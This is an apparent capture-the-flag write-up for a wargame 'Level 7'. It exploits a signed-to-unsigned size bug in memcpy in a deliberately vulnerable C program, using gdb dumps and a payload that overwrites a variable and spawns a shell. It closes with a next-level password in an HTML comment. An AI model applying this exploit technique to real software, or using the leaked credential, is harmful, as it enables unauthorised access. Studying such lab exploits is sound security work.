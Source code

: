 ## Level 7:

```c
 1 //written by bla
 2 #include <stdio.h>
 3 #include <string.h>
 4 #include <unistd.h>
 5 
 6 
 7 
 8 int main(int argc, char **argv)
 9 {
10 
11         int count = atoi(argv[1]);
12         int buf[10];
13 
14         if(count >= 10 )
15                 return 1;
16 
17 
18         memcpy(buf, argv[2], count * sizeof(int));
19 
20         if(count == 0x574f4c46) {
21         printf("WIN!\n");
22                 execl("/bin/sh", "sh" ,NULL);
23     } else
24                 printf("Not today son\n");
25 
26 
27         return 0;
28 }
```

Here we see there is a buffer with size 10 and no obvious way to overflow it as there is a check so that the count is always less then 10.
We can also see that *memcpy* uses the raw count variable. The vulnerability here is that *memcpy* doesn't check if the size is bigger nor negative! It takes size_t and we can give it negative number which if we cast it into unsigned value it will be massive while the first check will still see it as less then 10. 

```console
(gdb) disass main
Dump of assembler code for function main:
   ...
   0x08048462 <+78>:	call   0x8048334 <memcpy@plt>
   0x08048467 <+83>:	cmpl   $0x574f4c46,-0xc(%ebp)
   0x0804846e <+90>:	jne    0x804849a <main+134>
   0x08048470 <+92>:	movl   $0x8048584,(%esp)
   0x08048477 <+99>:	call   0x8048344 <printf@plt>
   0x0804847c <+104>:	movl   $0x0,0x8(%esp)
   0x08048484 <+112>:	movl   $0x804858a,0x4(%esp)
   0x0804848c <+120>:	movl   $0x804858d,(%esp)
   0x08048493 <+127>:	call   0x8048324 <execl@plt>
   0x08048498 <+132>:	jmp    0x80484a6 <main+146>
   0x0804849a <+134>:	movl   $0x8048595,(%esp)
   0x080484a1 <+141>:	call   0x8048344 <printf@plt>
   0x080484a6 <+146>:	movl   $0x0,-0x4c(%ebp)
   0x080484ad <+153>:	mov    -0x4c(%ebp),%eax
   0x080484b0 <+156>:	leave  
   0x080484b1 <+157>:	ret    
End of assembler dump.
```
To find the size needed to overflow I tried a few sizes and looked and the buffer to see how big the overflow was.

First I added a few breakpoints to help me locate the count and see the buffer and specific stages (*i.e.* 0x08048462 and 0x08048467).

```console
(gdb) b *0x08048462
Breakpoint 1 at 0x8048462
(gdb) b *0x08048467
Breakpoint 2 at 0x8048467
(gdb) r $(python -c 'print "-2147483648" + " " + "A"*100')
...
(gdb) c
Continuing.

Breakpoint 2, 0x08048467 in main ()
(gdb) x/44xw $esp
0xbffffb80:	0xbffffba0	0xbffffdc9	0x00000000	0x00000005
0xbffffb90:	0x0177ff8e	0xb7fc2000	0xb7e1ae18	0xb7fd5240
0xbffffba0:	0xb7fc2000	0xbffffc84	0xb7ffed00	0x00200000
0xbffffbb0:	0xffffffff	0x08049688	0xbffffbc8	0x080482f0
0xbffffbc0:	0x00000003	0x08049688	0xbffffbe8	0x080484e9
0xbffffbd0:	0xb7fc23dc	0x0804819c	0x080484db	0x80000000
0xbffffbe0:	0x00000003	0xb7fc2000	0x00000000	0xb7e26286
0xbffffbf0:	0x00000003	0xbffffc84	0xbffffc94	0x00000000
0xbffffc00:	0x00000000	0x00000000	0xb7fc2000	0xb7fffc0c
0xbffffc10:	0xb7fff000	0x00000000	0x00000003	0xb7fc2000
0xbffffc20:	0x00000000	0x19254d23	0x22162133	0x00000000
```
-2147483648 did not overflow the memcpy so I tried larger number.

```console
...
(gdb) r $(python -c 'print "-2147483620" + " " + "A"*100')
Starting program: /levels/level07 $(python -c 'print "-2147483620" + " " + "A"*100')

Breakpoint 1, 0x08048462 in main ()
(gdb) c
Continuing.

Breakpoint 2, 0x08048467 in main ()
(gdb) x/44xw $esp
0xbffffb80:	0xbffffba0	0xbffffdc9	0x00000070	0x00000005
0xbffffb90:	0x0177ff8e	0xb7fc2000	0xb7e1ae18	0xb7fd5240
0xbffffba0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffbb0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffbc0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffbd0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffbe0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffbf0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc00:	0x41414141	0x47445800	0x5345535f	0x4e4f4953
0xbffffc10:	0xb7fff000	0x00000000	0x00000003	0xb7fc2000
0xbffffc20:	0x00000000	0xff51623e	0xc4620e2e	0x00000000
...
```

Now I was finally overflow the buffer and was able to change the count variable. To figure out the location of the variable I can again check the cmpl instruction.

```console
0x08048467 <+83>:	cmpl   $0x574f4c46,-0xc(%ebp)
```

Now that I have a location I checked how many A's were in ths buffer and trivialy I determined I need 60 A's (or some other bytes) after which I need the number which is checked so my final payload looked like this:

```console
(gdb)  r $(python -c 'print "-2147483620" + " " + "A"*60 + "\x46\x4c\x4f\x57"')
Starting program: /levels/level07 $(python -c 'print "-2147483600" + " " + "A"*60 + "\x46\x4c\x4f\x57"')
WIN!
process 14128 is executing new program: /bin/bash
sh-4.3$
```

<!-- Level 8 password ==> VSIhoeMkikH6SGht -->